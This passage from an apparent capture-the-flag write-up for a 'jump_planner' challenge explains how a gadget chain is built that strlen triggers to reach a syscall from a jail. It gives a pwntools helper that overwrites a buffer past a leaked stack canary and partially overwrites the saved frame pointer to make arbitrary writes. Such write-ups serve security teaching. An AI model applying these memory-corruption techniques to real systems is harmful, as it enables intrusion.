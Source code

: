 ![pic1](/assets/jump_planner/pic1.png)


## The Actual Chain

So we know that `strlen` gets called which we can use to start the chain, but we have to write all our gadgets out first before launching the chain otherwise when `strlen` is executed the next gadget isnt setup and will just crash.

Working backwards though we can see what gadgets we need to reach the end state of calling the magic syscall with the correct parameters from the jail.

Also because we will be calling `manual_jump` a lot for each write the following helper code is used:

```python
def do_write(value,target):
	# sets up one write, calls next time called
	io.sendlineafter(b">> ",b"4")
	io.sendlineafter(b": ",str(value).encode())
	io.sendlineafter(b": ",b"0")
	p = b"A"*0x28
	p += p64(canary)
	p += p64(target)[:-1] #overwrite rbp sp that rbp-0x34 is target of write
  
	io.sendlineafter(b": ",p)
```
